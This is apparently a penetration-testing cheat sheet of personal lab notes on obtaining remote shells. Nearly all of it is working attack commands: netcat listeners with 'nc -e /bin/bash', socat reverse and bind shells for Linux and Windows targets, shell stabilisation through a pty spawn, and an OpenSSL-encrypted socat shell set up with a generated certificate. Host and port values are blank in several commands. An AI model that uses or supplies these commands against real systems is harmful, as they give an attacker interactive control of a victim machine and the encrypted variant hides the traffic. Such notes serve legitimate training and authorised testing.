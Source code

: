# shells

Reverse shell - server sends you a shell and offers you a /bin/bash of sorts to run your commands  
 Bind shell - server opens up a port and offers you a bash to run your input against that

## BASIC REVERSE/BIND SHELLS

`sudo nc -lvnp 443` - On the attacking machine  
 `nc -e /bin/bash` - On the target

## STABILIZING NC SHELL

1. `python -c 'import pty;pty.spawn("/bin/bash")'`
2. `export TERM=xterm`
3. background your reverse shell using Ctrl+Z
4. `stty raw -echo; fg` - bring back foreground

## HOW TO USE VI / NANO ON REVERSE SHELL

1. run `stty -a` on your attacker machine - you will get some op that gives you numbers for rows and columns, say `rows 45; columns 115;`
2. in your shell, type `stty rows`, `stty cols`

## SOCAT BASIC SHELLS

The easiest way to think about socat is as a connector between two points - MuirlandOracle

reverse shells

1. On attacker machine - `socat TCP-L: -`
2. On Linux target - `socat TCP:: EXEC:"bash -li"`
3. On Windows target - `socat TCP:: EXEC:powershell.exe,pipes`

bind shells

1. on attacker machine - `socat TCP:: -`
2. on linux target - `socat TCP-L: EXEC:"bash -li"`
3. on windows target - `socat TCP-L: EXEC:powershell.exe,pipes`

socat linux only very stable tty shell - on linux attacker machine - ``socat TCP-L: FILE:`tty`,raw,echo=0``  
 on linux target machine - `socat TCP:: EXEC:"bash -li",pty,stderr,sigint,setsid,sane`

## SOCAT ENCRYPTED SHELLS

1. create a cert and key on attacker machine - `openssl req --newkey rsa:2048 -nodes -keyout shell.key -x509 -days 362 -out shell.crt`
2. We then need to merge the two created files into a single `.pem` file - `cat shell.key shell.crt > shell.pem`

reverse shell listener - `socat OPENSSL-LISTEN:,cert=shell.pem,verify=0 -`  
 on target machine - `socat OPENSSL::,verify=0 EXEC:/bin/bash`

if we want to do for a bind shell, just use the same listener command on target machine, and attach cmd.exe / bash to it

for eg: `socat OPENSSL-LISTEN:,cert=shell.pem,verify=0 -` - remove this dash at the end \(which previously connects listener and stdin\) and place `EXEC:/bin/bash` \(which connects listener and cmd.exe\)

socat very stable tty openssl listener  
 on linux attacker machine - ``socat OPENSSL-LISTEN:53,cert=encrypt.pem,verify=0 FILE:`tty`,raw,echo=0``  
 on linux target machine - `socat OPENSSL::,verify=0 EXEC:"bash -li",pty,stderr,sigint,setsid,sane`

